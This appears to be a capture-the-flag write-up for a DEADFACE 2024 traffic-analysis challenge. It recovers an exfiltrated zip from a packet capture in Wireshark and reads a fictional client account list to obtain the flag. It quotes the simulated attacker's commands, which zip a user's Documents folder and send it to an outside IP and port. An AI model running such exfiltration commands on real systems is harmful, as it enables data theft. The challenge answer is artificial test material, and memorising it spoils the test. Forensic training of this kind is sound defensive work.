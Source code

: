 ```yaml
---
title: "Deep Pockets"
draft: false
tags: ["TRAFFIC ANALYSIS"]
series: "deadface2024"
date: 2024-10-06
author: Harbiinger
---
```


## Challenge Description
>Garry Sartoris had a CSV file of VIP clients on his machine that DEADFACE exfiltrated. TGRI wants us to confirm William Harrington’s account number to determine if his information was compromised. Submit William Harrington’s account number as the flag.
>
>Submit the flag as flag{AAAA##############}.

## file
[phantom.zip](/deadface2024/phantom.zip)

## Solution
In `Wireshark` we can use the filter `data` and search for any `csv` string in packet bytes.

![Image of wireshark filters](/deadface2024/deepPockets-1.png)

By following the TCP Stream of the first result (tcp.stream eq 297) we see some logs of windows PowerShell commands that contains `vip-clients.csv`.

The csv file we want is compressed with some other files into a zip archive:

`PS C:\Users\garry> Compress-Archive -Path "C:\Users\garry\Documents" -DestinationPath "C:\Users\garry\collection.zip"`

The archive is then sent through an ip and tcp port:

`PS C:\Users\garry> 945f.exe 45.55.201.188 7523 < collection.zip`

We can now use more precise filters: 

```ip.dst == 45.55.201.188 and tcp.port == 7523```

and save the raw data from the first tcp stream (tcp.stream eq 311). 

![Image of wireshark tcp stream](/deadface2024/deepPockets-2.png)

Let's name it collection.zip. We can now decompress it and print its content.

```
unzip collection.zip 
Archive:  collection.zip
warning:  collection.zip appears to use backslashes as path separators
  inflating: Documents/Garry_Sartoris_Timesheet.docx  
  inflating: Documents/techno_global_research_industries.xlsx  
  inflating: Documents/TGRI_2024_Q4_Goals_Presentation.pptx  
  inflating: Documents/TGRI_Dress_Standards_Letter.docx  
  inflating: Documents/vip-clients.csv  
```

```
cat Documents/vip-clients.csv 
Customer Name, Account Number
Melissa Bolton, SJWX94378180672085
Aaron Parker, FJOY35738636143323
William Harrington, RRNQ85158591854615
Jennifer Smith, IYEC17545523444798
```

Flag: flag{RRNQ85158591854615}
